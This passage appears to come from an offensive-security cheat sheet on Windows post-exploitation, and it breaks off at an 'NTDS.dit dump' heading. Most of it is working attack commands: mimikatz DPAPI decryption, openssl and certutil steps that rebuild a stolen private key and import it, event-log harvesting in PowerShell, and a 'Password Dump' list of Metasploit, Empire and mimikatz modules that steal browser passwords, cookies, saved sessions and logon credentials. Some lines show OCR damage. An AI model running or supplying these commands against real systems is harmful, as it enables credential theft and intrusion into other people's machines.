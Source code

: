     dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
    openssl x509 -inform DER -outform PEM -in blah.der -out public.pem
    openssl rsa -inform PVK -outform PEM -in blah.pvk -out private.pem
    openssl pkcs12 -in public.pem -inkey private.pem -password pass:randompass -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    # Import the certificate
    certutil -user -p randompass -importpfx cert.pfx NoChain,NoRoot
    type "C:\Users\Administrator\Documents\encrypted.txt"

Post exploitation - information gathering
      Reading Event Logs

User must be in “Event Log Reader” group
Follow this link

    Get-WinEvent -ListLog *
    # Listing logs of a specific user
    $cred = Get-Credentials
    Get -WinEvent -ListLog * -ComputerName AD1 -Credentials $cred
    # Reading Security logs
    (Get-WinEvent -FilterHashtable @{LogName = 'Security'} | Select-Object @{name='NewProcessNam
    e';expression={ $_.Properties[5].Value }}, @{name='CommandLine';expression={
    $_.Properties[8].Value }}).commandline

      Password Dump

    # Metasploit
    post/windows/gather/enum_chrome
    post/multi/gather/firefox_creds
    post/firefox/gather/cookies
    post/firefox/gather/passwords
    post/windows/gather/forensics/browser_history
    post/windows/gather/enum_putty_saved_sessions
    # Empire
    collection/ChromeDump
    collection/FoxDump
    collection/netripper
    credentials/sessiongopher
    # mimikatz
    privilege::debug
    sekurlsa::logonpasswords

      NTDS.dit dump
